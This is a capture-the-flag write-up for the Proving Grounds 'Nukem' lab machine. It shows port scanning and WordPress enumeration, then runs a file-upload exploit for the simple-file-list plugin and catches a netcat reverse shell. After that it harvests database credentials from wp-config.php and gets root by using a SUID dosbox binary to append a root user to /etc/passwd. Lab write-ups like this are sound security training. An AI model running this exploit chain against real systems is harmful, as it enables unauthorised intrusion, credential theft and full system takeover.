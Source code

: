 



# PG Play: [Nukem](https://portal.offensive-security.com/labs/play)

![image](https://user-images.githubusercontent.com/87611022/180659095-75dc4574-0a14-4866-8756-cae67ee8616a.png)

**Nukem** is said to be one of Proving grounds OSCP like boxes so I thought I would give it a try, so here is the writeup...

We begin by port scanning the target machine:

```
┌──(root💀kali)-[~/tryhackme/rooms/Practice/nukem]
└─# cat 192.168.192.105/192.168.192.105.nmap 
# Nmap 7.92 scan initiated Sun Sep  4 16:27:20 2022 as: nmap -p22,80,3306,5000,13000,36445 -sV -sC -T4 -Pn -oA 192.168.192.105 192.168.192.105
Nmap scan report for 192.168.192.105
Host is up (0.094s latency).

PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:6a:f5:d3:30:08:7a:ec:38:28:a0:88:4d:75:da:19 (RSA)
|   256 43:3b:b5:bf:93:86:68:e9:d5:75:9c:7d:26:94:55:81 (ECDSA)
|_  256 e3:f7:1c:ae:cd:91:c1:28:a3:3a:5b:f6:3e:da:3f:58 (ED25519)
80/tcp    open  http        Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-generator: WordPress 5.5.1
3306/tcp  open  mysql?
| fingerprint-strings: 
|   JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, NCP, NULL, RPCCheck, SSLSessionReq, TLSSessionReq, TerminalServer, ms-sql-s: 
|_    Host '192.168.49.192' is not allowed to connect to this MariaDB server
5000/tcp  open  http        Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-server-header: Werkzeug/1.0.1 Python/3.8.5
|_http-title: 404 Not Found
13000/tcp open  http        nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Login V14
36445/tcp open  netbios-ssn Samba smbd 4.6.2
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port3306-TCP:V=7.92%I=7%D=9/4%Time=63150A29%P=x86_64-pc-linux-gnu%r(NUL
SF:L,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.192'\x20is\x20not\x20all
SF:owed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(RPCCheck,4
SF:D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.192'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SSLSessionReq
SF:,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.192'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TLSSessionR
SF:eq,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.192'\x20is\x20not\x20al
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Kerberos,
SF:4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.192'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LDAPBindReq,
SF:4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.192'\x20is\x20not\x20allow
SF:ed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LANDesk-RC,4
SF:D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.192'\x20is\x20not\x20allowe
SF:d\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(TerminalServe
SF:r,4D,"I\0\0\x01\xffj\x04Host\x20'192\.168\.49\.192'\x20is\x20not\x20all
SF:owed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(NCP,4D,"I\
SF:0\0\x01\xffj\x04Host\x20'192\.168\.49\.192'\x20is\x20not\x20allowed\x20
SF:to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(JavaRMI,4D,"I\0\0\
SF:x01\xffj\x04Host\x20'192\.168\.49\.192'\x20is\x20not\x20allowed\x20to\x
SF:20connect\x20to\x20this\x20MariaDB\x20server")%r(ms-sql-s,4D,"I\0\0\x01
SF:\xffj\x04Host\x20'192\.168\.49\.192'\x20is\x20not\x20allowed\x20to\x20c
SF:onnect\x20to\x20this\x20MariaDB\x20server");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep  4 16:28:24 2022 -- 1 IP address (1 host up) scanned in 64.45 seconds

```
Port 80(http):

![image](https://user-images.githubusercontent.com/87611022/188484657-96a1b600-9306-4df6-8909-e2b1c2093387.png)

we can see that this port is hosting a wordpress website so we scan it using [wpscan](https://wpscan.com/wordpress-security-scanner):

```
┌──(root💀kali)-[~/tryhackme/rooms/Practice/nukem]
└─# wpscan --url http://192.168.192.105 --enumerate u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
```

wordpress provided so much information but the output which proved most interesting is **simple-file-list** plugin because it has an arbitrary file upload [exploit](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiI4oW0gv75AhWpQ_EDHeB1AkUQFnoECAUQAQ&url=https%3A%2F%2Fwww.exploit-db.com%2Fexploits%2F48979&usg=AOvVaw3XRhQqiUOQ1T_E0MhgCORN)
```
[i] Plugin(s) Identified:

[+] simple-file-list
 | Location: http://192.168.192.105/wp-content/plugins/simple-file-list/
 | Last Updated: 2022-08-26T15:08:00.000Z
 | [!] The version is out of date, the latest version is 4.4.12
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 4.2.2 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.192.105/wp-content/plugins/simple-file-list/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.192.105/wp-content/plugins/simple-file-list/readme.txt


```

we download the exploit and edit our IP/PORT and we start a netcat listener so we can get a reverse shell.

```
┌──(root💀kali)-[/]
└─# python3 48979.py http://192.168.192.105
[ ] File 8979.png generated with password: ec530ef57844e40093d53e9f73b38661
[ ] File uploaded at http://192.168.192.105/wp-content/uploads/simple-file-list/8979.png
[ ] File moved to http://192.168.192.105/wp-content/uploads/simple-file-list/8979.php
[+] Exploit seem to work.
[*] Confirmning
```
```
┌──(root💀kali)-[~/tryhackme/rooms/Practice/nukem]
└─# nc -nlvp 80                                                                              1 ⨯
listening on [any] 80 ...
connect to [192.168.49.192] from (UNKNOWN) [192.168.192.105] 34950
bash: cannot set terminal process group (350): Inappropriate ioctl for device
bash: no job control in this shell
[http@nukem simple-file-list]$
```

in the **http** directory we find an interesting file: **wp-config.php** which has the user **commander** credentials

```
[http@nukem http]$ cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configuration for WordPress
.
.
.
/** MySQL database username */
define( 'DB_USER', 'commander' );

/** MySQL database password */
define( 'DB_PASSWORD', 'CommanderKeenVorticons1990' );
```

so we ssh as commander using the credentials we found
```
┌──(root💀kali)-[/]
└─# ssh commander@192.168.192.105                                   130 ⨯
commander@192.168.192.105's password: 
Last login: Mon Sep  5 15:24:58 2022 from 192.168.49.192
[commander@nukem ~]$
```
now to find a possible privilege escalation I personally use [Linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) 
I ran the script and found an interesting Suid binary: **dosbox**
![image](https://user-images.githubusercontent.com/87611022/188486795-77ba4625-7ba1-4f22-bed6-a034d4776c40.png)

now according to [GTFObins](https://gtfobins.github.io/gtfobins/dosbox/#suid) we can use **dosbox** to overwrite any file.

![image](https://user-images.githubusercontent.com/87611022/188487247-fe8bf2db-52a6-408e-a255-e44e21712a3e.png)

The method I thought of was to create a user with root privileges and append it to passwd file so here is how i did it:

first we create the password on our attacking machine using __openssl__

```
┌──(root💀kali)-[~]
└─# openssl passwd -1 -salt user3 pass123  
$1$user3$rAGRVf5p2jYTqtqOW5cPu/
```

then echo our user along with the password hash and add root privileges:
==dont forget to skip the dollar signs==

```
[commander@nukem root]$ /usr/bin/dosbox -c 'mount c /' -c "echo shawarma:\$1\$user3\$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root/root:/bin/bash >>c:$LFILE" -c exit

[commander@nukem root]$ cat /etc/passwd
root:x:0:0::/root:/bin/bash
bin:x:1:1::/:/usr/bin/nologin
daemon:x:2:2::/:/usr/bin/nologin
mail:x:8:12::/var/spool/mail:/usr/bin/nologin
ftp:x:14:11::/srv/ftp:/usr/bin/nologin
http:x:33:33::/srv/http:/usr/bin/nologin
nobody:x:65534:65534:Nobody:/:/usr/bin/nologin
dbus:x:81:81:System Message Bus:/:/usr/bin/nologin
systemd-journal-remote:x:982:982:systemd Journal Remote:/:/usr/bin/nologin
systemd-network:x:981:981:systemd Network Management:/:/usr/bin/nologin
systemd-resolve:x:980:980:systemd Resolver:/:/usr/bin/nologin
systemd-timesync:x:979:979:systemd Time Synchronization:/:/usr/bin/nologin
systemd-coredump:x:978:978:systemd Core Dumper:/:/usr/bin/nologin
uuidd:x:68:68::/:/usr/bin/nologin
mysql:x:977:977:MariaDB:/var/lib/mysql:/usr/bin/nologin
commander:x:1000:1000::/home/commander:/bin/bash
avahi:x:976:976:Avahi mDNS/DNS-SD daemon:/:/usr/bin/nologin
colord:x:975:975:Color management daemon:/var/lib/colord:/usr/bin/nologin
lightdm:x:974:974:Light Display Manager:/var/lib/lightdm:/usr/bin/nologin
polkitd:x:102:102:PolicyKit daemon:/:/usr/bin/nologin
usbmux:x:140:140:usbmux user:/:/usr/bin/nologin
git:x:973:973:git daemon user:/:/usr/bin/git-shell
shawarma:$1$user3$rAGRVf5p2jYTqtqOW5cPu/:0:0:/root/root:/bin/bash
```
then we __su__ to our new user and get that proof.txt

```
[commander@nukem root]$ su shawarma
Password: 
Warning: your password will expire in 32713 days.
sh-5.0# id
uid=0(root) gid=0(root) groups=0(root)
```

that's it for this box it was a bit challenging and fun, thank you for reading through this writeup :)

